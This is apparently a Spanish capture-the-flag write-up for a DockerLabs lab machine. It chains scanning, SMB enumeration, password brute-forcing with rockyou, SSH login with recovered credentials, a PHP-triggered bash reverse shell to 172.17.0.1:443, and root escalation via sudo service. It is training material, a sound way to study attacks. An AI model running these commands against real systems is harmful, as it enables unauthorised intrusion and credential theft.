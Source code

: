 nmap: 22,80,139,445

![image](https://github.com/user-attachments/assets/78d857c5-460d-42ce-94d6-3159515263ec)

---
hacemos un gobuster y nos da:

    gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x php,html,py,txt -t 64

![image](https://github.com/user-attachments/assets/b8a8ebeb-3b95-4134-a7fc-d1775b21470d)

    - info.php
    - productos.php

productos.php nos manda a otra pagina 

![image](https://github.com/user-attachments/assets/53410e19-348e-427a-94ea-322298cafe73)

en esa hay posibles contraseñas o usuarios como "shopo" o el codigo SHOPO20

haciendo un:
> enum4linux 172.17.0.2

nos da usuarios que tienen:

     - usuario1
     - usuario1
     - usuario3
     - satriani7
     - administrador

![image](https://github.com/user-attachments/assets/b54865f2-aa71-4d41-b4f6-bb8620adca3b)

hacemos una fuerza bruta: 

    sudo netexec smb 172.17.0.2 -u 'satriani7' -p /usr/share/wordlists/rockyou.txt  --ignore-pw-decoding 

da:
> santriani7/50cent

![image](https://github.com/user-attachments/assets/6faf8fb6-d6a8-4faa-8de6-bd3e44c9e241)

lo utilizamos para ver que ficheros tiene:

    smbmap -u 'satriani7' -p '50cent' -H 172.17.0.2

da:

    - myshare
    - backup24

![image](https://github.com/user-attachments/assets/36b341bc-287c-48d7-9386-0a2f917309fa)

nos conectamos ahora al "smb" 

    smbclient //172.17.0.2/backup24 -U 'satriani7%50cent'

dentro hay varios documentos
seguimos esta ruta: 
> Documentos > personal > get credentials.txt

![image](https://github.com/user-attachments/assets/5a4f3955-e87c-4c33-abe3-2be18a043f22)

en nuestra terminal lo leemos y tiene los usuarios y contraseñas

![[credencial.png]]

entramos por el ssh con la de administrador

     administrador/Adm1nP4ss2024

![[dockerlabs/facil/allien/conexion.png]]

hacemos el comando: find / -user administrador 2>/dev/null
y encontramos esto

![[var.png]]

Sabiendo esto, podemos intentar crear un archivo que nos permita pasar al usuario "www-data"

vamos a la siguiente dirección:
> cd /var/www/html

creamos primero una carpeta llamada: shell.sh

    - #!/bin/bash
    - bash -i >& /dev/tcp/172.17.0.1/443 0>&1

ahora creamos una carpeta con php

      - <?php
      - system('./shell.sh')
      - ?>

ahora vamos al navegador que esten utilizando, en este caso firefox y colocamos: 
    http://172.17.0.2/shell.php
en el terminal victima colocamos en escucha: nc -nlvp 443 

![[dockerlabs/facil/allien/conexion2.png]]

y estamos otra vez dentro

ahora un tratamiento stty

colocamos sudo -l
podemos escalar por "service". lo buscamos: https://gtfobins.github.io/gtfobins/service/#sudo

![[dockerlabs/facil/allien/sudo.png]]

lanzamos el comando que nos da: 

    sudo service ../../bin/sh

bash -p

![[dockerlabs/facil/allien/root.png]]

y somos root! 
